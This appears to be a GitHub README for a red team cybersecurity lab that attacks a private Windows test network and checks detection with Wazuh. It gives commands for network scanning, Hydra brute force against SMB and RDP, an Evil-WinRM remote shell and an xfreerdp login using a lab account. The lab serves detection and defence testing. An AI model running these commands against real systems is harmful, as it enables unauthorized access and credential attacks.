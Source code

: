 #  Red Team — Enterprise Cybersecurity Lab

This section documents simulated attacks executed against an enterprise environment using Kali Linux. These scenarios reflect common tactics from adversaries, including brute-force, remote code execution, and lateral movement. The goal is to demonstrate real-world offensive techniques and validate their detection by Blue Team tools such as **Wazuh**.

---

##  Lab Environment

| Hostname      | Role              | OS             | IP Address |
|---------------|-------------------|----------------|------------|
| kali-attacker | Red Team Attacker | Kali Linux     | 10.0.0.50  |
| client-win    | Workstation       | Windows 11     | 10.0.0.101 |
| win-server    | Domain Controller | Windows Server | 10.0.0.10  |

---

##  Objectives

- Simulate real-world attack paths on Windows infrastructure.
- Test the visibility and detection capabilities of Wazuh.
- Document MITRE ATT&CK mappings for each step.
- Propose defensive strategies based on findings.

---

##  Attack Scenarios

### 1. Network Reconnaissance

**Tools**: `netdiscover`, `nmap`  
**Purpose**: Identify live hosts, open ports, and OS fingerprints.

bash
netdiscover -r 10.0.0.0/24
nmap -sS -sV -O -T4 10.0.0.0/24

### 2. SMB & RDP Brute Force
Tool: Hydra
Target: client-win
Protocols: SMB & RDP
Wordlists: SecLists

bash
Copy
Edit
hydra -L users.txt -P passwords.txt smb://10.0.0.101
hydra -L users.txt -P passwords.txt rdp://10.0.0.101

###3. Remote Shell via Evil-WinRM
Tool: Evil-WinRM
Target: client-win
Purpose: Remote PowerShell access using stolen credentials.

bash
Copy
Edit
evil-winrm -i 10.0.0.101 -u jdoe -p @password123!

###4. Remote Desktop Session (xfreerdp)
Tool: xfreerdp
Purpose: Full GUI login to target workstation.

bash
Copy
Edit
xfreerdp /u:jdoe /p:password123 /v:10.0.0.101
Results: Successful RDP session.
 Detection: Wazuh detected successful login (Event ID 4624).
